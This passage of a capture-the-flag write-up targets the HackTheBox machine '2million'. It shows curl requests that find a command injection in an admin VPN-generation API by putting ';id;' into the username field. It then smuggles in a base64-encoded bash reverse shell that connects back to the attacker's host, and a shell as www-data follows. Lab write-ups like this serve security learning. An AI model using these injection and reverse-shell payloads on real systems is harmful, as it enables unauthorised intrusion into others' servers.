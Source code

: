 Now, it's time to generate a vpn, so let's do it:

```shell
curl -sv -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=lk3t1iclf5ro9vk7i52uc4118m"  -H 'Content-Type: application/json' | jq

[redacted]
{
  "status": "danger",
  "message": "Missing parameter: username"
}
```

We need to add the paramenter `username`:

```shell
curl -sv -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=lk3t1iclf5ro9vk7i52uc4118m"  -H 'Content-Type: application/json' -d '{"username":"gitblanc@gitblanc.com"}'

[redacted]
-----BEGIN CERTIFICATE-----
MIIGADCCA+igAwIBAgIUQxzHkNyCAfHzUuoJgKZwCwVNjgIwDQYJKoZIhvcNAQEL
BQAwgYgxCzAJBgNVBAYTAlVLMQ8wDQYDVQQIDAZMb25kb24xDzANBgNVBAcMBkxv
bmRvbjETMBEGA1UECgwKSGFja1RoZUJveDEMMAoGA1UECwwDVlBOMREwDwYDVQQD
[redacted]
```

If this VPN is being generated via the `exec` or `system` PHP function and there is insufficient filtering in place, it might be possible to inject malicious code in the username field and gain command execution on the remote system. Let's test this assumption by injecting the command `;id;` after the username.

```shell
curl -sv -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=lk3t1iclf5ro9vk7i52uc4118m"  -H 'Content-Type: application/json' -d '{"username":"test;id;"}'

[redacted]
uid=33(www-data) gid=33(www-data) groups=33(www-data)
* Connection #0 to host 2million.htb left intact
```

> *We've got a Command Injection vulnerability :)*

Now we can inject a reverse shell payload (I encoded it in base64 because it didn't work normal and then pipe it to bash):

```shell
curl -sv -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=lk3t1iclf5ro9vk7i52uc4118m"  -H 'Content-Type: application/json' -d '{"username":"test;echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMy82NjYgMD4mMQ== | base64 -d | bash;"}'

[redacted]
connect to [10.10.14.13] from 2million.htb [10.10.11.221] 37874
bash: cannot set terminal process group (1157): Inappropriate ioctl for device
bash: no job control in this shell
www-data@2million:~/html$ whoami
whoami
www-data
```

